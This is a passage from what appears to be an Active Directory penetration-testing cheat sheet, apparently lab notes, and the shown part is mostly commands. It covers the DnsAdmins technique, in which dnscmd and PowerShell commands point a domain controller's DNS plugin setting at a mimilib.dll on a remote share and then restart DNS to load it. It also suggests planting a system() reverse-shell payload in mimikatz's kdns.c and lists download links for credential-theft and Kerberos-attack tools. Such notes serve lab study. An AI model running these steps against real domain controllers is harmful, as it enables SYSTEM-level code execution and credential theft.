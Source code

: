 ```powershell
dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.50.100\d11\mimilib.dll
```

### <span style="color:#F1C232">2. Restart the DNS service</span>
 
```powershell
PS> cmd
sc \\dcorp-dc stop dns
sc \\dcorp-dc start dns
```

### <span style="color:#F1C232">3. Using DNSServer module</span>
 
```powershell
$dnsettings = Get-DnsServerSetting -ComputerName dcorp-dc -Verbose -All
$dnsettings.ServerLevelPluginDll = "\\172.16.50.100\d11\mimilib.d11"
Set-DnsServerSetting -Inputobject $dnsettings -ComputerName dcorp-dc -Verbose
```

## <span style="color:lightgreen">Custom Exploit for Rev shell</span>
We can edit the source code of **kdns.c** from *mikikatz* source code and add our own malicious payload using the *system()* function and get a reverse shell back to us.

# <span style="color:lightblue">Tools Used</span>

1. Invoke-Mimikatz download from here : [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
2. PowerView download from here : [powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
3. PowerView Dev download from here : [powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
4. Invoke-UserHunter download from here : [Invoke-UserHunter.ps1](https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-UserHunter.ps1
)
5. keko download from here : [keko](https://github.com/gentilkiwi/kekeo/releases/tag/2.2.0-20211214)
6. DnsCMD download from here : [DnsCMD](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/)
7. tgsrepcrack.py download from here : [tgsrepcrack.py](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)
8. ASREPRoast download from here : [ASREPRoast.ps1](https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1)

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>

